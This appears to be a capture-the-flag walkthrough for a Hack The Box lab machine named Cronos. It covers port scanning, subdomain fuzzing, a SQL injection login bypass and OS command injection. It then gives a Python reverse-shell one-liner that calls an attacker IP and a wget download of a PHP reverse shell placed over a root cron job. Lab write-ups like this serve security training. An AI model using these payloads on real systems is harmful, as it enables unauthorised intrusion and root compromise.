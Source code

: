 # Cronos

## Nmap

{% code overflow="wrap" %}
```bash
# Nmap 7.92 scan initiated Wed Oct  5 16:49:45 2022 as: nmap -Pn -p 22,53,80 -sCV -O -oN script-scan.txt -v cronos.htb
Nmap scan report for cronos.htb (10.10.10.13)
Host is up (0.026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-title: Cronos
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.000 days (since Wed Oct  5 16:49:41 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  5 16:50:04 2022 -- 1 IP address (1 host up) scanned in 18.38 seconds
```
{% endcode %}

## HTTP

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

### Webfuzz

{% code overflow="wrap" %}
```
 kali@kali  ~/Documents/htb/cronos  gobuster vhost -u http://cronos.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 100 -o webfuzz.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://cronos.htb
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/10/07 16:35:44 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.cronos.htb (Status: 200) [Size: 1547]
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### SQLi

We use the following payload for authentication bypass

```sql
admin' or '
```

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We will now test for OS Command Injection

```
8.8.8.8 & whoami
```

<figure><img src="../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

We can see we are the `www-data` user, so next we'll try to get a reverse shell

## Foothold

Set up your listener

```
rlwrap -cAr nc -lnvp 443
```

Enter this and click `execute`

{% code overflow="wrap" %}
```
8.8.8.8 & python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Check your listener and you should have a shell

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Checking for scheduled tasks, we see there's a file called `artisan` that is running as a cron job with root privileges every minute of every hour of every month of every day of the week. We'll replace the contents of the file with a php reverse shell.

<figure><img src="../../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

I used revshells.com to generate a reverse shell and pasted it into a file called `privesc.php`

{% embed url="https://www.revshells.com/" %}

<figure><img src="../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Using a python web server, I download the file onto the victim machine and changed the name to match the filename in the cron job

```
wget 10.10.14.19/privesc.php
```

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Now set up a new listener (in my case, I will listen on port 445) and in just a few seconds, you should receive another shell, but this time as root

<figure><img src="../../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>
